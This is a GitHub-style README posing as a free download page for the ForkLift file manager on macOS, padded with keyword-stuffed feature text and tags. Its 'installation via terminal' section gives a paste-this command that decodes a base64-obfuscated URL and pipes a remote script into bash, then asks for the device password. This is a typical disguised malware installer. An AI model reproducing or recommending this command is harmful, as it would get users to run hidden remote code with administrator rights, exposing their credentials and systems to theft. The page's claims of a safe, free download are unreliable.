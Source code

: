 # ForkLift — Free Download For Mac OS 🚀
![logo](https://external-preview.redd.it/forklift-4-released-v0-SrU-1fjClUDwDWDDQI3Xz-U2dRnhDHpj-x6UCFRuumE.jpg?auto=webp&s=46ef23f9c0bdb795050858f182ae542a1cf0c789)


ForkLift is a powerful and versatile file manager for Mac OS, designed to streamline your workflow with its intuitive interface and robust features. Follow the instructions below to download and install ForkLift on your Mac for free.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/forkliftmac)

If you encounter issues downloading via the button above, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install ForkLift For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 🎯 What You Get with ForkLift

- 🗂 **Dual-Pane File Management**: Navigate and manage files efficiently with a dual-pane interface for faster operations.  
- ☁️ **Cloud Integration**: Seamlessly connect to FTP, SFTP, WebDAV, Amazon S3, and other cloud services.  
- ⚡ **Fast File Transfers**: Transfer files at lightning speed with ForkLift’s optimized transfer engine.  
- 🔄 **Sync Capabilities**: Sync folders across local and remote locations with precision and ease.  
- 🔍 **Advanced Search**: Locate files quickly with powerful search and filter options.  
- 🛠 **Customization Options**: Tailor the interface and shortcuts to match your workflow.

## About ForkLift

ForkLift is a premier file management tool for Mac OS, designed to enhance productivity for both casual users and professionals. With its **dual-pane file manager**, ForkLift allows users to manage files across local drives and remote servers with unmatched efficiency. Whether you're organizing large datasets or transferring files to cloud storage, ForkLift’s intuitive design makes it a go-to solution for **Mac file management**. Its seamless integration with popular cloud services like Amazon S3, Google Drive, and Dropbox ensures that users can access and manage files from multiple platforms without switching apps.

The **ForkLift free download** is perfect for users seeking a lightweight yet powerful alternative to Finder. Its robust feature set includes batch renaming, file synchronization, and advanced search capabilities, making it ideal for developers, designers, and IT professionals. Unlike traditional file managers, ForkLift supports **FTP for Mac** and SFTP connections, enabling secure file transfers over networks. The application’s sleek interface is optimized for macOS, ensuring smooth performance on both older and newer Mac systems.

ForkLift stands out with its ability to handle complex file operations with ease. For instance, users can compare and sync folders between local and remote locations, ensuring data consistency across environments. The **Mac OS file transfer** feature is optimized for speed, allowing large files to be moved in seconds. Additionally, ForkLift’s support for keyboard shortcuts and customizable workflows makes it a favorite among power users who need a **free file manager for Mac** that doesn’t compromise on functionality.

Security is a priority with ForkLift, especially for users handling sensitive data. The app supports encrypted connections via SFTP and WebDAV, ensuring that your **Mac file management** tasks are secure. Whether you’re a freelancer managing client assets or a system administrator overseeing server files, ForkLift provides the tools to streamline your workflow. Its built-in preview feature allows you to view files without opening them, saving time and improving efficiency.

### Why Choose ForkLift?

ForkLift’s key advantage is its combination of power and simplicity. Unlike other file managers, it offers a clean, macOS-native interface that feels familiar yet provides advanced features like remote server access, batch processing, and folder synchronization. The **ForkLift free download for Mac** is a safe, reliable way to access these features without subscription costs. Its active development ensures compatibility with the latest macOS versions, making it a future-proof choice for **Mac file transfer** and management.

## 🖼 Preview

![ForkLift Dual-Pane Interface](https://binarynights.com/images/main.png)  
*Explore files effortlessly with ForkLift’s dual-pane interface.*

![Cloud Integration](https://binarynights.com/images/manual/forklift-4-gui.png)  
*Connect to cloud services like Amazon S3 and Google Drive seamlessly.*

![File Transfer Speed](https://binarynights.com/images/manual/forklift-4-main_window.png)  
*Experience lightning-fast file transfers with ForkLift’s optimized engine.*

## 🔍 Tags

forklift mac, forklift mac os, forklift os x, forklift app mac, forklift ftp, forklift ftp client,
mac os forklift, binarynights forklift, download forklift mac, forklift 2 mac, forklift 3 mac,
forklift 4 mac, forklift download for mac, forklift download mac, forklift mac download
